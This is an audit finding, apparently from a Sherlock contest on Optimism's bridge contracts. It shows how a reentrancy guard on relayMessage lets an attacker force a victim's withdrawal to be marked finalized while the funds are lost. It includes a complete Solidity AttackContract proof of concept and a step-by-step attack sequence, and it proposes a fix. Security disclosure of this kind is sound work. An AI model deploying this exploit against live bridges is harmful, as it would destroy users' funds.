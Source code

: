 HE1M

high

# Causing users lose their fund during finalizing withdrawal transaction

## Summary
A malicious user can make users lose their fund during finalizing their withdrawal. This is possible due to presence of reentrancy guard on the function `relayMessage`.
## Vulnerability Detail

 - Bob (a malicious user) creates a contract (called `AttackContract`) on L1. 
 ```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.0;

struct WithdrawalTransaction {
    uint256 nonce;
    address sender;
    address target;
    uint256 value;
    uint256 gasLimit;
    bytes data;
}

interface IOptimismPortal {
    function finalizeWithdrawalTransaction(WithdrawalTransaction memory _tx)
        external;
}

contract AttackContract {
    bool public donotRevert;
    bytes metaData;
    address optimismPortalAddress;

    constructor(address _optimismPortal) {
        optimismPortalAddress = _optimismPortal;
    }

    function enableRevert() public {
        donotRevert = true;
    }

    function setMetaData(WithdrawalTransaction memory _tx) public {
        metaData = abi.encodeWithSelector(
            IOptimismPortal.finalizeWithdrawalTransaction.selector,
            _tx
        );
    }

    function attack() public {
        if (!donotRevert) {
            revert();
        } else {
            optimismPortalAddress.call(metaData);
        }
    }
}

```
 - Bob sends a message from L2 to L1 by calling the function `sendMessage` with the following parameters. He intends to call the function `attack()` through relaying the message from L2 to L1.
   - `_target` = address of `AttackContract` on L1 
   - `_message` = abi.encodeWithSignature("attack()")
   - `_minGasLimit` = just big enough so that the transaction can be executed
https://github.com/sherlock-audit/2023-01-optimism/blob/main/optimism/packages/contracts-bedrock/contracts/universal/CrossDomainMessenger.sol#L212
 - On the L1 side, after challenge period and validation elapsed, the function `attack()` on contract `AttackContract` will be called during relaying the message.
https://github.com/sherlock-audit/2023-01-optimism/blob/main/optimism/packages/contracts-bedrock/contracts/universal/CrossDomainMessenger.sol#L324
 -  But, since `donotRevert` is `false` in the contract `AttackContract`, the relayed message will be unsuccessful. So, we will have `failedMessages[versionedHash] = true`. It means that it is possible again to retry relaying the message later.
https://github.com/sherlock-audit/2023-01-optimism/blob/main/optimism/packages/contracts-bedrock/contracts/universal/CrossDomainMessenger.sol#L331
```solidity
        if (!donotRevert) {
            revert();
        }
```
 - Then, Bob calls the function `enableRevert` to set `donotRevert` to `true`. So that if later the function `attack()` is called again, it will not revert.
```solidity
    function enableRevert() public {
        donotRevert = true;
    }
```
 - Then, Bob notices that Alice is withdrawing large amount of fund from L2 to L1. Her withdrawal transaction is proved but she is waiting for the challenge period to be finished to finalize it.
 - Then, Bob calls the function `setMetaData` on the contract `AttackContract` with the following parameter:
   - `_tx` = Alice's withdrawal transaction
  - By doing so, the `metaData` will be equal to `finalizeWithdrawalTransaction.selector` + Alice's withdrawal transaction.
```solidity
   function setMetaData(WithdrawalTransaction memory _tx) public {
        metaData = abi.encodeWithSelector(
            IOptimismPortal.finalizeWithdrawalTransaction.selector,
            _tx
        );
    }
```
  - Now, after the challenge period is passed, and before the function `finalizeWithdrawalTransaction` is called by anyone (Alice), Bob calls the function `relayMessage` with the required data to retry his previous failed message again.
  - This time, since `donotRevert` is `true`, the call to function `attack()` will not revert, instead the body of `else clause` will be executed.
```solidity
        else {
            optimismPortalAddress.call(metaData);
        }
```
  - In the `else clause`, it calls the function `finalizeWithdrawalTransaction` with Alice's withdrawal transaction as the parameter, to finalize Alice's transaction.
https://github.com/sherlock-audit/2023-01-optimism/blob/main/optimism/packages/contracts-bedrock/contracts/L1/OptimismPortal.sol#L243
 - During finalizing Alice's withdrawal transaction, everything goes smoothly (as the challenge period is passed, and everything is valid) until the call to the function `relayMessage` in the contract `CrossDomainMessanger`.
 https://github.com/sherlock-audit/2023-01-optimism/blob/main/optimism/packages/contracts-bedrock/contracts/L1/OptimismPortal.sol#L324
 - Due to the reentrancy guard, the call will be unsuccessful.
https://github.com/sherlock-audit/2023-01-optimism/blob/main/optimism/packages/contracts-bedrock/contracts/universal/CrossDomainMessenger.sol#L263
 - Please note that the flow is as follows:
 Bob ==> `CrossDomainMessenger.relayMessage` ==> `AttackContract.attack` ==> `OptimismPortal.finalizeWithdrawalTransaction` => `CrossDomainMessenger.relayMessage`
 - Since, the failed call is not handled during finalizing the message, the transaction will be finished without any error.
 - Then, Bob's relayed message transaction will be finished successfully.
 - By doing so, Alice's withdrawal transaction is flagged as finalized, but in reality it was not because of reentrancy guard. So, Alice loses her fund.
https://github.com/sherlock-audit/2023-01-optimism/blob/main/optimism/packages/contracts-bedrock/contracts/L1/OptimismPortal.sol#L308


In summary the attack is as follows:
1. Bob creates a malicious contract on L1 called `AttackContract`.
2. Bob sends a message from L2 to L1 to call the function `AttackContract.attack` on L1.
3. On L1 side, after the challenge period is passed, the function `AttackContract.attack` will be called.
4. Message relay on L1 will be unsuccessful, because the function `AttackContract.attack` reverts. So, Bob's message will be flagged as failed message.
5. Bob sets `AttackContract.donotRevert` to true.
6. Bob waits for an innocent user to request withdrawal transaction.
7. Bob waits for the innocent user's withdrawal transaction to be proved.
8. Bob sets meta data in his malicious contract based on the innocent user's withdrawal transaction.
9. Bob waits for the challenge period to be passed.
10. After the challenge period is elapsed, Bob retries to relay his failed message again.
11. `CrossDomainMessenger.relayMessage` will call the `AttackContract.attack`, then it calls `OptimismPortal.finalizeWithdrawalTransaction` to finalize innocent user's withdrawal transaction. Then, it calls `CrossDomainMessenger.relayMessage`, but it will be unsuccessful because of reentrancy guard.
12. After finalizing the innocent user's withdrawal transaction, Bob's message will be flagged as successful. 
13. So, innocent user's withdrawal transaction is flagged as finalized, while it is not.   

## Impact
By doing this attack it is possible to prevent users from withdrawing their fund. Moreover, they lose their fund because withdrawal is flagged as finalized, but the withdrawal sent to `L1CrossDomainMessanger` was not successful.
## Code Snippet

## Tool used

Manual Review

## Recommendation
Maybe it is better to use the following code instead of:
https://github.com/sherlock-audit/2023-01-optimism/blob/main/optimism/packages/contracts-bedrock/contracts/L1/OptimismPortal.sol#L324-L329
```solidity
        try IL1CrossDomainMessanger.relayMessage(...) {} catch Error(string memory reason) {
            if (
                keccak256(abi.encodePacked(reason)) ==
                keccak256(abi.encodePacked("ReentrancyGuard: reentrant call"))
            ) {
                revert("finalizing should be reverted");
            }
        }
```